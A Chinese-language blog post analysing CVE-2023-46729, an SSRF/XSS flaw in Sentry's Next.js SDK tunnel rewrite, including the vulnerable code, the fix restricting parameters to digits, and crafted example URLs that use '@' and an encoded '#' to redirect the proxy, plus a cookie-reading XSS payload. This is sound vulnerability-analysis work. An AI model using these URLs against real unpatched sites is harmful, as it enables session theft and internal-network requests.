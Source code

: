 ```yaml
---
title: 簡單分析 CVE-2023-46729：Sentry Next.js SDK 的 URL rewrite 漏洞
date: 2023-11-13 15:40:00
catalog: true
tags: [Security]
categories: [Security]
photos: /img/sentry-nextjs-sdk-cve-2023-46729/cover.png
---
```


Sentry 在 2023 年 11 月 9 號時，在部落格上發布了這篇文章：[Next.js SDK Security Advisory - CVE-2023-46729](https://blog.sentry.io/next-js-sdk-security-advisory-cve-2023-46729/)，內容主要在講述 CVE-2023-46729 這個漏洞的一些細節，包含漏洞成因、發現時間以及修補時間等等。

雖然說是在 11/9 正式對外發布漏洞公告，但漏洞其實在 10/31 發佈的 7.77.0 版本已經修復了，有預留一些時間給開發者們來修補漏洞。

接著就來簡單講一下這個漏洞的成因以及攻擊方式。

<!-- more -->

## 漏洞分析

在 GitHub 上面也有一個比較偏技術的說明：[CVE-2023-46729: SSRF via Next.js SDK tunnel endpoint](https://github.com/getsentry/sentry-javascript/security/advisories/GHSA-2rmr-xw8m-22q9)

可以看到這一段：

> An unsanitized input of Next.js SDK tunnel endpoint allows sending HTTP requests to arbitrary URLs and reflecting the response back to the user. 

在 Sentry 裡面，有一個叫做 tunnel 的功能，這張來自於[官方文件](https://docs.sentry.io/platforms/javascript/troubleshooting/#dealing-with-ad-blockers)的圖完美地解釋了為什麼需要 tunnel：

![tunnel](/img/sentry-nextjs-sdk-cve-2023-46729/p1.png)

如果沒有 tunnel 的話，送給 Sentry 的請求會在前端直接透過瀏覽器發送，而這些直接發給 Sentry 的請求可能會被一些 ad blocker 擋住，Sentry 就沒辦法接收到數據。若是有開啟 tunnel，就會變成先將請求發送給自己的 server，再從自己的 server 轉發給 Sentry，這樣就變成了 same-origin 的請求，便不會被 ad blocker 擋住。

在專門提供給 Next.js 使用的 Sentry SDK 中，是用了一個叫做 [rewrite](https://nextjs.org/docs/app/api-reference/next-config-js/rewrites) 的功能，官方範例如下：

``` js
module.exports = {
  async rewrites() {
    return [
      {
        source: '/blog',
        destination: 'https://example.com/blog',
      },
      {
        source: '/blog/:slug',
        destination: 'https://example.com/blog/:slug', // Matched parameters can be used in the destination
      },
    ]
  },
}
```

Next.js 的 rewrite 基本上可以分為兩種，internal 跟 external，後者的話其實更像是 proxy 的感覺，可以直接把請求導向到外部網站，然後顯示出 response。

Next.js Sentry SDK 的實作在 [sentry-javascript/packages/nextjs/src/config/withSentryConfig.ts](https://github.com/getsentry/sentry-javascript/blob/7.69.0/packages/nextjs/src/config/withSentryConfig.ts#L98)：

``` js
/**
 * Injects rewrite rules into the Next.js config provided by the user to tunnel
 * requests from the `tunnelPath` to Sentry.
 *
 * See https://nextjs.org/docs/api-reference/next.config.js/rewrites.
 */
function setUpTunnelRewriteRules(userNextConfig: NextConfigObject, tunnelPath: string): void {
  const originalRewrites = userNextConfig.rewrites;

  // This function doesn't take any arguments at the time of writing but we future-proof
  // here in case Next.js ever decides to pass some
  userNextConfig.rewrites = async (...args: unknown[]) => {
    const injectedRewrite = {
      // Matched rewrite routes will look like the following: `[tunnelPath]?o=[orgid]&p=[projectid]`
      // Nextjs will automatically convert `source` into a regex for us
      source: `${tunnelPath}(/?)`,
      has: [
        {
          type: 'query',
          key: 'o', // short for orgId - we keep it short so matching is harder for ad-blockers
          value: '(?<orgid>.*)',
        },
        {
          type: 'query',
          key: 'p', // short for projectId - we keep it short so matching is harder for ad-blockers
          value: '(?<projectid>.*)',
        },
      ],
      destination: 'https://o:orgid.ingest.sentry.io/api/:projectid/envelope/?hsts=0',
    };

    if (typeof originalRewrites !== 'function') {
      return [injectedRewrite];
    }

    // @ts-expect-error Expected 0 arguments but got 1 - this is from the future-proofing mentioned above, so we don't care about it
    const originalRewritesResult = await originalRewrites(...args);

    if (Array.isArray(originalRewritesResult)) {
      return [injectedRewrite, ...originalRewritesResult];
    } else {
      return {
        ...originalRewritesResult,
        beforeFiles: [injectedRewrite, ...(originalRewritesResult.beforeFiles || [])],
      };
    }
  };
}
```

其中的重中之重就是這一段：

``` js
const injectedRewrite = {
  // Matched rewrite routes will look like the following: `[tunnelPath]?o=[orgid]&p=[projectid]`
  // Nextjs will automatically convert `source` into a regex for us
  source: `${tunnelPath}(/?)`,
  has: [
    {
      type: 'query',
      key: 'o', // short for orgId - we keep it short so matching is harder for ad-blockers
      value: '(?<orgid>.*)',
    },
    {
      type: 'query',
      key: 'p', // short for projectId - we keep it short so matching is harder for ad-blockers
      value: '(?<projectid>.*)',
    },
  ],
  destination: 'https://o:orgid.ingest.sentry.io/api/:projectid/envelope/?hsts=0',
};
```

會根據 query string 中的 `o` 跟 `p`，決定最後要重新導向的 URL。

而這邊的問題是這兩個參數的 regexp 都用了 `.*`，也就是說會配對到任何字元，換句話說，底下這個網址：

```
https://huli.tw/tunnel?o=abc&p=def
```

會 proxy 到：

```
https://oabc.ingest.sentry.io/api/def/envelope/?hsts=0
```

看起來沒什麼問題，但如果是這樣呢？

```
https://huli.tw/tunnel?o=example.com%23&p=def
```

`%23` 是 `#` URL encode 後的結果，最後就會 proxy 到：

```
https://oexample.com#.ingest.sentry.io/api/def/envelope/?hsts=0
```

我們利用了 `#` 來把原本的 hostname 都當成 hash 的一部分，並且成功更改了 proxy 的目的地。但最前面那個 o 還是有點煩人，不如把它一起消除掉吧！只要在最前面加個 `@` 就行了：

```
https://huli.tw/tunnel?o=@example.com%23&p=def
```

會變成：

```
https://o@example.com#.ingest.sentry.io/api/def/envelope/?hsts=0
```

如此一來，攻擊者就可以利用 o 這個參數更改 proxy 的目的地，將 request 導向至任何地方。剛剛有說過這個 rewrite 功能會將 response 直接回傳，所以當使用者瀏覽：`https://huli.tw/tunnel?o=@example.com%23&p=def` 的時候，看到的 response 會是 `example.com` 的結果。

也就是說，如果攻擊者把請求導向至自己的網站，就可以輸出 `<script>alert(document.cookie)</script>`，就變成了一個 XSS 漏洞。

若是攻擊者不是導到自己的網站，而是導向到其他內部的網頁如 `https://localhost:3001` 之類的，就是一個 SSRF 的漏洞（但目標必須支援 HTTPS 就是了）。

至於修復方式的話也很簡單，只要對 regexp 做出一些限制即可，最後 Sentry 是調整成[只允許數字](https://github.com/getsentry/sentry-javascript/pull/9416/files)：

``` js
{
  type: 'query',
  key: 'o', // short for orgId - we keep it short so matching is harder for ad-blockers
  value: '(?<orgid>\\d*)',
},
```

7.77.0 版本以及之後的版本都已經修復了這個問題。

## 總結

這個漏洞真的滿簡單而且滿好重現的，只需要找到修復的 commit，看兩眼程式碼大概就能知道怎麼攻擊。

總之呢，在做 URL rewrite 的時候真的必須謹慎一點，不然還滿容易出問題的（尤其是你不只是 rewrite path，而是 rewrite 整個 URL）。
